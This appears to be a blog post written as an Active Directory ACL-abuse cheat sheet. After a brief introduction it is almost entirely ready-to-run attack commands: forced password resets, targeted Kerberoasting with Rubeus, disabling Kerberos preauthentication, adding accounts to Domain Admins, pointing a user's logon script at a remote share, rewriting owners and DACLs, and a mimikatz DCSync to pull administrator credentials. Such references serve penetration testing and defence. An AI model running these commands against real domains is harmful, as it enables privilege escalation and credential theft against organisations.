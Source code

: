 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

2. AllExtendedRights

- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
   - Using `net`: 
	```bash
	net group "domain admins" spotless/add /domain
	```
	- Using Active Directory module:
	```powershell
	Add-ADGroupMember -Identity "domain admins" -Members spotless
	```
    - Using PowerView module:
	```powershell
	Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
	```
3. Self-Membership
- Add to Group
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight on
- User-Force-Change-Password (Password Reset)
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty
- Add to Group
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner
- Change the object’s owner
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
- Change Owner
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL
- Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```
